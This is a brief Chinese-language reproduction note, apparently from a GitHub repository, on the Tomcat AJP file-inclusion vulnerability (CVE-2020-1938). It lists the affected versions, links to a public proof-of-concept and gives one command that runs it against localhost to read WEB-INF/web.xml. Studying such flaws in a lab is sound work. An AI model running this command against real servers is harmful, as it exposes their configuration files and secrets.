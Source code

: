 # Tomcat文件包含漏洞(CVE-2020-1938)
` @Time : 2020年8月17日, 0017 15:05`
` @Author  : 862897316@qq.com`
` @Software: PyCharm`

```
开始编写
```
### 环境搭建
```angular2html
https://blog.csdn.net/BoZhihouci/article/details/107832298
```
[安装步骤](Tomcat安装步骤(含设置自启动).md)

### 受影响版本
```angular2html
Apache Tomcat = 6
7 <= Apache Tomcat <7.0.100
8 <= Apache Tomcat <8.5.51
9 <= Apache Tomcat <9.0.31
```
### 本次使用版本
```angular2html
Tomcat 7.0.69
```
### POC
```angular2html
https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi
```

### 复现方式
```angular2html
python CNVD-2020-10487-Tomcat-Ajp-lfi.py 127.0.0.1 -p 8009 -f WEB-INF/web.xml
```

> 乾坤未定,你我皆是黑马